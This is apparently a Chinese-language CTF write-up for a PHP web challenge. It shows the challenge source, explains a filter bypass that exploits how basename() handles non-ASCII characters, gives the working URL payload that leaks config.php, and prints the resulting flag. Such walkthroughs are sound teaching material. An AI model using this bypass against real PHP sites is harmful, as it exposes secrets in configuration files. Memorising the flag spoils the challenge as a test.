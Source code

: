![](<./img/Pasted image 20221225090429.png>)

---
首页长这样

![](<./img/Pasted image 20221225090448.png>)

```php
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Can you guess it?</title>
  </head>
  <body>
    <h1>Can you guess it?</h1>
    <p>If your guess is correct, I'll give you the flag.</p>
    <p><a href="?source">Source</a></p>
    <hr>
<?php if (isset($message)) { ?>
    <p><?= $message ?></p>
<?php } ?>
    <form action="index.php" method="POST">
      <input type="text" name="guess">
      <input type="submit">
    </form>
  </body>
</html>
```

这个`guess`显然是没必要guess了，再怎么guess都guess不出来的啦（摊手）

尝试这个`source`查询的可行性
```php
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```
重点是这个此地无银三百两的`$_SERVER['PHP_SELF']`到底是干啥子的

![](<./img/Pasted image 20221225095205.png>)

目的是让`basename($_SERVER['PHP_SELF'])`为`config.php`

![](<./img/Pasted image 20221225095410.png>)

开头的过滤
```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
```
匹配`config.php`和后面任意多个`/`到行尾

![](<./img/Pasted image 20221225102919.png>)

[默认区域设置中，basename 会忽略开头的非ASCII字符](https://bugs.php.net/bug.php?id=62119)

构造`payload`
```php
/index.php/config.php?source
```

利用`basename`函数的问题尝试修改，以绕过`preg_match`
```php
/index.php/config.php/哀?source
```

```php
<?php
define('FLAG', 'flag{d26cb9ed-4893-418c-a451-e306c00ead33}');
```

#Web #PHP #function #bypass #Vulnerabilities #正则表达式